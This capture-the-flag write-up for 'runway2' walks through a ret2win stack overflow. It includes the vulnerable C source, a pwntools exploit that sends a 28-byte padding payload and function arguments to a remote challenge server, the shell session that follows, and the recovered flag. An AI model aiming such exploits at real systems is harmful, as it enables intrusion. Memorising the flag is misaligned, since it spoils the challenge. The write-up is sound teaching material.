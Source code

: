 # runway2

This challenge provided the following `runway2.c` file:

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <fcntl.h>
#include <sys/sendfile.h>

int win(int check, int mate) {
    if (check == 0xc0ffee && mate == 0x007ab1e) {
        printf("You win! Here is your shell:\n");
        fflush(stdout);

        system("/bin/sh");
    } else {
        printf("No way!");
        fflush(stdout);
    }
}

int get_answer() {
    char answer[16];

    fgets(answer, 0x40, stdin);

    return strtol(answer, NULL, 10);
}

int calculate_answer(int op1, int op2, int op) {
    switch (op)
    {
        case 0:
            return (op1 + op2);
        case 1:
            return (op1 - op2);
        case 2:
            return (op1 * op2);
        case 3:
            return (op1 / op2);
        default:
            exit(-1);
    }
}

int main() {
    int op1;
    int op2;
    int op;
    char operands[5] = "+-*/";
    int input;
    int answer;

    srand(time(0));

    printf("Pop quiz!\n");
    fflush(stdout);

    op1 = rand() % 30;
    op2 = rand() % 30;
    op = rand() % 4;

    printf("What is %d %c %d?\n", op1, op[operands], op2);
    fflush(stdout);

    input = get_answer();
    answer = calculate_answer(op1, op2, op);

    if (input == answer) {
        printf("Good job! No flag though :)\n");
    } else {
        printf("I don't think you're trying very hard.\n");
    }

    return 0;
}
```

This challenge, similar to `runway1`, is a `ret2win` challenge, just that this time the `win` function
expects some arguments.

To figure out how to pass these arguments, let's take a look at the provided `Makefile`:

```makefile
all: runway2.c
        gcc runway2.c -o runway2 -fno-stack-protector -no-pie -m32
```

This uses the same compiler options as in `runway1`, but this time `-m32` is more meaningful. In 32-bit
binaries, the aguments are stored on the stack rather than in registers. This makes the call rather
easier, since we don't have to deal with finding a way to get those arguments in the right registers.

As with `runway1`, I used [this site](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) to get
a cyclic string to paste into `pwndbg`, which gave me this:

> Invalid address 0x62413961

For which that site returned an offset of `28`.

Using that, I built my exploit, with the arguments for the function placed two bytes after the `win` address:

```python
import pwn

pwn.context.terminal = ["tmux", "splitw", "-h"]
pwn.context.binary = elf = pwn.ELF("./runway2")


if pwn.args.REMOTE:
    io = pwn.remote("challs.pwnoh.io",13402)
else:
    io = pwn.process("./runway2")

win = elf.symbols["win"]

io.recvline()
io.recvline()

payload = b'A' * 28
rop_chain = [
            win, 0, 0xc0ffee, 0x007ab1e
            ]
for directive in rop_chain:
    payload += (directive).to_bytes(4, "little")
io.sendline(payload)

io.interactive()
```

And here's that in action:
```
# python3 exploit.py REMOTE SILENT
You win! Here is your shell:
$ ls
flag.txt
run
$ cat flag.txt
bctf{I_m1sS_4r1thm3t1c_qu1ZZ3s_2349adb53baa2955}
```

Giving the flag `bctf{I_m1sS_4r1thm3t1c_qu1ZZ3s_2349adb53baa2955}`
